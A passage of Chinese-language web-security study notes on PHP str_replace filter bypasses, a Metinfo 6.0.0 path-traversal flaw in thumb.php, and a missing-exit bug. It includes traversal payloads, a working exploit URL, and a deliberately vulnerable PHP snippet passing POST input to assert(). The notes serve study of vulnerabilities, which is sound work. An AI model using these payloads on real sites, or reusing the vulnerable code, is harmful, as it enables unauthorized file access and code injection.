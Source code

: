 ```
str_replace(字符串1，字符串2，字符串3)：将字符串3中出现的所有字符串1换成字符串2。

str_replace(数组1，字符串1，字符串2)：将字符串2中出现的所有数组1中的值，换成字符串1。

str_replace(数组1，数组2，字符串1)：将字符串1中出现的所有数组1一一对应，替换成数组2的值，多余的替换成空字符串。
```

- payload

```
....// 或者 ..././ 
```

### Metinfo 6.0.0 

- strstr

```
查找字符串的首次出现到结尾的字符串
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200510181653.png)

#### 漏洞分析

- app/system/include/module/old_thumb.class.php:14

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200510183440.png)

- include/thumb.php:6

**全局搜索**
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200510183630.png)

- app/system/include/class/load.class.php:113

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200510183942.png)

- payload 

```
http://localhost/metInfo/include/thumb.php?dir=.....///http/.....///最终用户授权许可协议.txt
```

## 程序未恰当exit导致的问题

### Anticipation

- code 

```php
extract($_POST);

function goAway() {
  error_log("Hacking attempt.");
  header('Location: /error/');
}

if (!isset($pi) || !is_numeric($pi)) {
  goAway();
}

if (!assert("(int)$pi == 3")) {
  echo "This is not pi.";
} else {
  echo "This might be pi.";
}
```
